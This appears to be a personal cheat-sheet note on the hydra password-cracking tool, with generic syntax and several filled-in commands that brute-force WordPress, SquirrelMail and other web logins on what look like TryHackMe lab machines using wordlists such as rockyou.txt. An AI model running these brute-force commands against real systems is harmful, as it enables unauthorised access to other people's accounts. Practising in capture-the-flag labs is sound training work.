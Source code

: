 ```yaml
---
id: hydra
aliases: []
tags: []
---
```


Usage:

  For services:
    `$ hydra -L <file of usernames> -P <file of passwords> <target IP> <target service>`
    `$ hydra -l <username> -p <password> <target IP> <target service>`

    e.g.

  For http-form:
    `$ hydra -L <file of usernames> -P <file of passwords> <target IP> -V http-form-post '[endpoint]:[user_post_var]=^USER^&[password]=^PASS^:[fail response]'`

    e.g.

    `$ hydra -l Elliot -P ~/Cybersec/boxes/THM/easy/MrRobot/pruned_list.dic  10.10.134.143 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In'`
	
	  `$ hydra -L users -P /usr/share/wordlists/rockyou.txt  10.10.244.75 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`
	
  	`$ hydra -l milesdyson -P logs/log1.txt 10.10.64.219 -V http-form-post "/squirrelmail/src/login.php:login_username=^USER^&secretkey=^PASS^:incorrect"`
	
  	`$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.0.109 -V http-form-post "/blog/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Finternal.thm%2Fblog%2Fwp-admin%2F&testcookie=1:F=incorrect"`

    `$ hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 10.10.22.145 -V http-form-post ‘/login.php:username=^USER^&password=^PASS^:Invalid’`
